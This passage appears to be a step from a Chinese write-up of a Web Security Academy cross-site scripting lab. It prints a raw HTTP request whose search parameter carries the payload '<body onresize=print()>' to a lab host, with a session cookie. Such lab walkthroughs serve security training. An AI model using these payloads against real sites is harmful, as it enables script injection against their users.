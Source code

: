 ![avatar](pic/body_resize.PNG)
	通过改变窗口大小，能够触发print函数

	8.根据发送的以下请求：
	GET /?search=%3Cbody+onresize%3Dprint%28%29%3E HTTP/1.1
    Host: ac1a1fea1f7eb440c087319500d50093.web-security-academy.net
    Cookie: session=URivo12FtVfCnTvN2J2mQ6CCqRS6ZRfh
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac1a1fea1f7eb440c087319500d50093.web-security-academy.net/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9